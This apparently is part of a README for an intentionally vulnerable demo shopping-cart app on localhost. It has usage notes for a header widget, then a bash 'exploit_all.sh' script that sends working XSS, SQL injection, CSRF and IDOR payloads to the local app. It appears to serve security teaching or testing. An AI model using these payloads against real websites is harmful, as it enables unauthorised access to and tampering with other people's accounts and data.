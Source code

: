 ### Usage

#### Fetch widget HTML:
```bash
curl "http://localhost:9000/header-widget"
```

**Expected Result**:
```html
<div class="header-widget">
    <div class="cart-icon-link">
        <a href="/cart?user=guest">
            <img src="/cart-icon.png" alt="Cart" />
            <span class="cart-count">0</span>
        </a>
    </div>
</div>
```

#### Test with DemoShoppingCartClient:
The application includes a client that uses jsoup to parse this endpoint:

```kotlin
val client = DemoShoppingCartClient(httpHandler)
val cartWidget = client.fetchCartWidget()
// Returns the HTML content of the div.cart-icon-link element
```

---

## Complete Exploitation Script

Save as `exploit_all.sh`:

```bash
#!/bin/bash

echo "=== Exploiting All Vulnerabilities ==="
echo ""

# 1. XSS
echo "[1] XSS Exploitation"
curl -s "http://localhost:9000/greet?name=<script>alert('Hacked')</script>" | grep -o '<script>'
echo ""

# 2. SQL Injection
echo "[2] SQL Injection"
product_count=$(curl -s "http://localhost:9000/search?q=laptop'%20OR%20'1'='1" | grep -c "<li>")
echo "Products returned: $product_count"
echo ""

# 3. CSRF
echo "[3] CSRF Attack"
curl -s -X POST "http://localhost:9000/cart/add?user=victim&product=1"
curl -s "http://localhost:9000/cart?user=victim" | grep "Laptop"
echo ""

# 4. IDOR
echo "[4] IDOR Attack"
curl -s -X POST "http://localhost:9000/cart/add?user=admin&product=4"
curl -s "http://localhost:9000/cart?user=admin" | grep "Shopping Cart for: admin"
echo ""

echo "=== All exploits executed ==="
```
